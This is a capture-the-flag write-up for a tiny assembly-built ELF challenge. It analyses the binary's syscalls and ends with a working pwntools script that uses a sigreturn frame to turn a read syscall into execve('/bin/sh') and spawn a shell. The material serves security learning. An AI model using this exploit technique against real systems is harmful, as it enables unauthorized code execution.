

It would be a good idea to start by identifying the given binary type.

```sh
$ file chall                
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

$ strings chall         
I'm small, aren't I? Nobody expects me to do anything...
I guess I'll just stay here, too small to matter. Figures.
Guess I was right... I'm just too small for you to care.
test.asm
msg_len
msg2
msg2_len
msg3
msg3_len
buffer
__bss_start
_edata
_end
.symtab
.strtab
.shstrtab
.text
.data
.bss
```

It turns out that the given binary file is very small, in the `strings` command we can see that there is `test.asm` which may be the source code of this binary. So it can be concluded that this binary is a binary compiled from assembly.

It's time for us to do binary analysis using **IDA Pro**.

```c
void __noreturn start()
{
  signed __int64 v0; // rax
  signed __int64 v1; // rax
  signed __int64 v2; // rax
  signed __int64 v3; // rax
  size_t v4; // rdx
  signed __int64 v5; // rax
  signed __int64 v6; // rax
  signed __int64 v7; // rax
  char v8; // [rsp-1F4h] [rbp-1F4h] BYREF

  v0 = sys_write(1u, msg, 0x3AuLL);
  v1 = sys_read(0, &v8, 0x1F3uLL);
  v2 = sys_write(1u, msg2, 0x3CuLL);
  v3 = sys_read(0, _bss_start, 0x10uLL);
  v5 = sys_read(0, _bss_start, v4);
  v6 = sys_write(1u, msg3, 0x39uLL);
  v7 = sys_exit(0);
}
```

From the assembly code above, we can see that this binary performs `read` and `write` syscalls to read input from the user and write output to the user.



But there is something interesting here where in the `sys_read(0, _bss_start, 0x10uLL);` section we can see that this binary reads 0x10 bytes (16 bytes) of user input to `_bss_start` which is part of the `.bss` section. After `sys_read` is complete, this binary does `sys_read(0, _bss_start, v4);` where when `sys_read` is called it will use the previous register used in `sys_read(0, _bss_start, 0x10uLL);`.

When `sys_read(0, _bss_start, 0x10uLL);` is finished being called then the `eax` or `rax` register will contain the same value as the number of bytes read by `sys_read`.

So `sys_read(0, _bss_start, v4);` will not always be `sys_read` but it will change to another `syscall` according to the value in the `rax` register.

After searching the internet there is a technique called [Sigreturn-Oriented Programming (SROP)](https://ir0nstone.gitbook.io/notes/binexp/stack/syscalls/sigreturn-oriented-programming-srop) where we can do the `syscall` we want using this technique.

We can create **Sigreturn Frame** using `SigreturnFrame` from the `pwn` library which will help us to create the payload we want. With `SigreturnFrame` we can set the register we want and do the syscall we want.

Here is the python script that I used to complete this challenge. We store the **Sigreturn Frame** in the first `sys_read` in the `v8` variable on the stack. After that we do a second `sys_read` to write the string `/bin/sh` to `_bss_start` (But we adjust it first so that the output of `rax` becomes the `sys_rt_sigreturn` syscall number 15) which we then use in the **Sigreturn Frame** to do the `execve` syscall which will run the shell.

```py
from pwn import *

binary = './chall'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('microp.ctf.prgy.in', 1337, ssl=True)

# gdb.attach(r, '''
#     b *_start+108
#     c
# ''')

frame = SigreturnFrame()
frame.rax = 59          # execve syscall number
frame.rdi = 0x4020B0    # Pointer to "/bin/sh" string (_bss_start)
frame.rsi = 0           # NULL argv
frame.rdx = 0           # NULL envp
frame.rip = 0x401098    # syscall instruction

payload_stage1 = bytes(frame).ljust(0x1F3, b'\x00')

r.recvuntil(b"I'm small, aren't I? Nobody expects me to do anything...")
r.send(payload_stage1)

payload_stage2 = b"/bin/sh\x00".ljust(15, b'\x00')

r.recvuntil(b"I guess I'll just stay here, too small to matter. Figures.")
r.send(payload_stage2) # Write /bin/sh to _bss_start

r.interactive()
r.close()
```
